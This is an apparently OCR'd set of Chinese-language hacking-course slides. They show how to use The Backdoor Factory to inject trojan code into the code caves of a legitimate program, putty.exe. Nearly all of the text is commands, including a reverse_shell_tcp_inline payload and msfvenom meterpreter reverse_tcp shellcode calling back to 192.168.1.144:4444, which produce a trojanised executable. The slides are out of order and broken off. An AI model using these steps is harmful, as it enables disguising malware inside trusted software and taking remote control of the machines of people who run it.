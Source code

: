 45/70



## backdoor factory——后门工厂

GitHub上搜索backdoor factory

【是用Python写的】

原理：把木马插入程序的代码缝隙

```
cd进入文件夹
cd the-backdoor-factory-master/
chmod 777 ./*
./install.sh
pip install -i https://pypi.douban.com/simple pefile/capstone
# 重新安装缺失组件

对某个正经程序插入木马代码：
# 查看这个程序是否支持插入代码
python backdoor.py -f /root/putty.exe -S

# 查找程序里大于600的缝隙
python backdoor.py -f /root/putty.exe -c -l 600

# 获取文件可用的payload
python backdoor.py -f /root/putty.exe -s show

# 生成payload
python backdoor.py -f /root/putty.exe -s reverse_shell_tcp_inline -H 192.168.1.144 -P 4444 -J -o haha.exe
```

26/70



## 用户自己做的木马

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.144 lport=4444 -f raw -o shell.c

python backdoor.py -f /root/putty.exe -s user_supplied_shellcode_threaded -U /root/shell.c -o haha.exe

# 把木马做成.c的格式
```

48/71



## unicorn
